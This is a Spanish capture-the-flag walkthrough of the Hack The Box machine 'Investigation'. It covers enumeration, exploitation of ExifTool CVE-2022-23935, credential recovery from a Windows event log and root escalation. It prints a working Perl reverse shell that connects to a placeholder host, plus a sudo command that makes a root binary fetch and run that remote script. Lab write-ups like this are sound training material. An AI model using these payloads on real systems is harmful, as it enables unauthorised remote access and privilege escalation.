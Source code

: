 # 🏁 Investigation

<figure><img src="../../../../.gitbook/assets/Investigation.png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/525">Investigation</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.11.197</td><td></td></tr><tr><td>Sistema simulado: </td><td>Ubuntu</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>ExifTool</td><td></td></tr><tr><td>CVEs:</td><td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-23935">CVE 2022-23935</a></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el ejercicio lanzando un nmap a la IP de la máquina para comenzar a descubrir los puertos y servicios que hay abiertos.&#x20;

```bash
nmap -sCV 10.10.11.197 -O -p-
```

<figure><img src="../../../../.gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

En este punto tenemos que ver cual es la página web de la máquina, para ello, como hemos visto que viene configurado en el puerto 80 en la petición de nmap usaremos el dominio `eForenzics.htb` y lo configuraremos en el fichero `/etc/hosts` . En este punto podremos ver la página web desplegada.

<figure><img src="../../../../.gitbook/assets/2 (7).png" alt=""><figcaption></figcaption></figure>

Observamos que dentro de la web existe un "servicio gratuito" que simula un analizador forense de imágenes. Realizamos una prueba.

<figure><img src="../../../../.gitbook/assets/3 (5).png" alt=""><figcaption></figcaption></figure>

### 2. POC y explotación de Exiftool

En este punto nos damos cuentas de que la página ejecuta [Exiftool ](https://exiftool.org/)y nos devuelve un reporte en formato TXT por pantalla, por lo que debemos empezar a buscar una forma de vulnerar este Exiftool 12.37  ya que es una entrada potencial. Tras una investigación encontramos el CVE 2022-23935 el cual parece ser potencialmente explotable en esta máquina.  En el siguiente Github podemos encontrar una prueba de Concepto (POC) de la explotación de la vulnerabilidad.

{% embed url="https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429" %}

Por otro lado hemos encontrado el exploit de 0xFTW el cual usaremos en nuestro caso para intentar ejecutar la vulnerabilidad. Seguimos los pasos de instalación de descarga y preparación del exploit como viene indicado, aunque encontramos un par de repositorios con exploits ya montados que no conseguimos hacer funcionar correctamente.&#x20;

La siguiente prueba de concepto es muy interesante y sencilla para entender el funcionamiento.

{% embed url="https://github.com/BKreisel/CVE-2022-23935" %}

Aunque nosotros utilizaremos el siguiente generador de la shell en un fichero que subiremos mediante esta herrmienta.&#x20;

{% embed url="https://github.com/0xFTW/CVE-2022-23935" %}

Solo debemos de seguir los pasos y ejecutar la herramienta apuntando hacia una IP y puerto que queramos levantar. Esto nso generará un fichero que deberemos de subir a la web y que automáticamente nos dará acceso con www-data.&#x20;

<figure><img src="../../../../.gitbook/assets/4 (4).png" alt=""><figcaption></figcaption></figure>

### 3. Escalada a usuarios del sistema

En este punto y ya con acceso a ww-data deberemos de intentar escalar al usuario "smorton" el cual entendemos que tendrá mayores privilegios que nosotros.&#x20;

Investigando los diferentes directorios que tenemos activos en la máquina descubrimos que existe una carpeta interesante con archivos que nos llaman la atención, entre ellos un correo electrónico.

<figure><img src="../../../../.gitbook/assets/5 (6).png" alt=""><figcaption></figcaption></figure>

Debemos de descargarnos este archivo en nuestro ordenador para desde ahí analizarlo con mayor facilidad. Una vez lo tenemos podemos leerlo mediante Outlock o un [visualizador](https://products.groupdocs.app) de este tipo de archivos.&#x20;

<figure><img src="../../../../.gitbook/assets/6 (5).png" alt=""><figcaption></figcaption></figure>

Al ver el contenido del archivo podemos visualizar el siguiente contenido.&#x20;

<figure><img src="../../../../.gitbook/assets/7 (4).png" alt=""><figcaption></figcaption></figure>

Como vemos existe un archivo adjunto el cual no podemos ver, pero mediante [Ecryptomatic ](https://www.encryptomatic.com/)conseguimos descargarlo.

<figure><img src="../../../../.gitbook/assets/8 (4).png" alt=""><figcaption></figcaption></figure>

El fichero que obtenemos es security.evtx lel cual es un fichero extraido dle visor de eventos de windows por lo que necesitaremos una herramienta para visualizarlo.

<figure><img src="../../../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

Para exportar el archivo security.evtx usaremos&#x20;

{% embed url="https://github.com/williballenthin/python-evtx/tree/master/scripts" %}

```bash
pip install python-evtx
```

Una vez instalado evtx ejecutaremos la conversión del archivo.

```bash
python evtx_dump.py /home/kali/Escritorio/security.evtx > /home/kali/Escritorio/1.evtxdump
```

En ese momento ya podremos ver en XML el archivo y utilizaremos un editor de texto para observar en él e intentar encontrar información relevante.&#x20;

<figure><img src="../../../../.gitbook/assets/10 (6).png" alt=""><figcaption></figcaption></figure>

Revisando en los logs encontraremos una pass la cual utilziaremos para loguearnos por ssh al usuario smorton consiguiendo acceso y visualizando la flag del usuario.&#x20;

<figure><img src="../../../../.gitbook/assets/12 (4).png" alt=""><figcaption></figcaption></figure>

### 4. Escalada de privilegios

En este punto nos encontramos con el usuario smorton y debemos de realizar una investigación dentro de los directorios para intentar llegar a realizar la escalada.&#x20;

Al empezar nos llama la atención el fichero /usr/bin/binary el cual podremos utilizar.&#x20;

<figure><img src="../../../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

Nos enviamos el binario a nuestro ordenador para analizarlo&#x20;

<figure><img src="../../../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

En este punto decompilaremos el binario para analizarlo y ver sus partes. Podemos usar para ello [Dogbolt](https://dogbolt.org).

<figure><img src="../../../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

```perl
nt32_t main(int32_t argc, char** argv, char** envp)
{
    if (argc != 3)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (getuid() != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    if (strcmp(argv[2], "lDnxUysaQn") != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    puts("Running... ");
    FILE* rax_8 = fopen(argv[2], &data_2027);
    int64_t rax_9 = curl_easy_init();
    int32_t var_40 = 0x2712;
    curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712);
    int32_t var_3c = 0x2711;
    curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711);
    int32_t var_38 = 0x2d;
    curl_easy_setopt(rax_9, 0x2d, 1, 0x2d);
    if (curl_easy_perform(rax_9) != 0)
    {
        puts("Exiting... ");
        exit(0);
        /* no return */
    }
    int64_t rax_25 = snprintf(nullptr, 0, &data_202a, argv[2]);
    char* rax_28 = malloc((rax_25 + 1));
    snprintf(rax_28, (rax_25 + 1), &data_202a, argv[2]);
    int64_t rax_37 = snprintf(nullptr, 0, "perl ./%s", rax_28);
    char* rax_40 = malloc((rax_37 + 1));
    snprintf(rax_40, (rax_37 + 1), "perl ./%s", rax_28);
    fclose(rax_8);
    curl_easy_cleanup(rax_9);
    setuid(0);
    system(rax_40);
    system("rm -f ./lDnxUysaQn");
    return 0;
}
```

Analizando el código entendemos que existen 4 pasos:

1. Se comprueba si se puede ejecutar o no.
2. Se comprueba si el usuario puede ejecutar le código como root o por el contrario no.
3. Comprueba si el argumento es `"lDnxUysaQn"`
4. Se abre un fichero con curl el cual ejecuta el segundo parámetro con perl.



Con toda esta información vamos a preparar una estrategia para llegar a ser root en la máquina.

1. Crearemos un archivo de perl con una revershell de Kali en nuestra máquina.&#x20;

```perl
use Socket;
$i="[IP]";
$p=[PORT];
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
 open(STDIN,">&S");open(STDOUT,">&S");
 open(STDERR,">&S");exec("/bin/bash -i");
};
```

2. Levantaremos un servidor de python en el mismo directorio que tengamos el archivo con la shell.

```bash
python -m http.server 80 
```

3. Ejecutaremos en la máquina con el usuario smorton la siguiente ruta aprovechándonos del análisis sobre el código Perl realizado.

```bash
sudo /usr/bin/binary [IP]/shell.pl lDnxUysaQn
```

Al ejecutarlo conseguiremos acceder como root a la máquina, acabando la máquina y obteniendo la flag de root.&#x20;

<figure><img src="../../../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>







{% hint style="info" %}
Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)
{% endhint %}
